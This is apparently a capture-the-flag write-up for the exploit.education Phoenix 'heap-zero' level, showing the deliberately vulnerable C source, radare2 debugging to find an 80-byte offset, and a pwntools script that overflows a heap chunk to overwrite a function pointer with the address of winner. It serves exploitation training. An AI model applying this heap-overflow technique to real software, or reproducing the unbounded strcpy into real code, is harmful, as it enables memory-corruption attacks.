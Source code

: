 ```yaml
---
description: 'http://exploit.education/phoenix/heap-zero/'
---
```


# heap0

## Source

Luckily it gives us the source:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Analysis

So let's analyse what it does:

* Allocates two chunks on the heap
* Sets the `fp` variable of chunk `f` to the address of `nowinner`
* Copies the first command-line argument to the `name` variable of the chunk `d`
* Runs whatever the `fp` variable of `f` points at

The weakness here is clear - it runs a random address on the heap. Our input is copied there after the value is set and there's no bound checking whatsoever, so we can overrun it easily.

### Regular Execution

Let's check out the heap in normal conditions.

```text
$ r2 -d -A heap0 AAAAAAAAAAAA            <== that's just a parameter
$ s main; pdf
[...]
0x0040075d      e8fefdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x00400762      488b45f8       mov rax, qword [var_8h]
[...]
```

We'll break right after the strcpy and see how it looks.

```text
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x400762
```

![The Expected Two Chunks](../../../.gitbook/assets/image%20%285%29.png)

If we want, we can check the contents.

![Chunk with our input](../../../.gitbook/assets/image%20%282%29.png)

![The Chunk with the Function Address](../../../.gitbook/assets/image%20%283%29.png)

So, we can see that the function address is there, after our input in memory. Let's work out the offset.

### Working out the Offset

Since we want to work out how many characters we need until the pointer, I'll just use a De Bruijn Sequence.

```text
$ ragg2 -P 200 -r
```

```text
$ r2 -d -A heap0 AAABAACAADAAE...
```

Let's break **on** and **after** the `strcpy`. That way we can check the location of the pointer then immediately read it and calculate the offset.

```text
[0x004006f8]> db 0x0040075d
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x40075d
```

![The chunk before the strcpy](../../../.gitbook/assets/image.png)

So, the chunk with the pointer is located at `0x2493060`. Let's continue until the next breakpoint.

```text
[0x0040075d]> dc
hit breakpoint at: 0x400762
```

![Corrupted](../../../.gitbook/assets/image%20%281%29.png)

radare2 is nice enough to tell us we corrupted the data. Let's analyse the chunk again.

![](../../../.gitbook/assets/image%20%284%29.png)

Notice we overwrote the `size` field, so the chunk is much bigger. But now we can easily use the first value to work out the offset \(we could also, knowing the location, have done `pxq @ 0x02493060`\).

```text
[0x00400762]> wopO 0x6441416341416241
80
```

So, fairly simple - 80 characters, then the address of `winner`.

## Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap0')

payload = (b'A' * 80 + flat(elf.sym['winner'])).replace(b'\x00', b'')

p = elf.process(argv=[payload])

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
We need to remove the null bytes because `argv` doesn't allow them
{% endhint %}

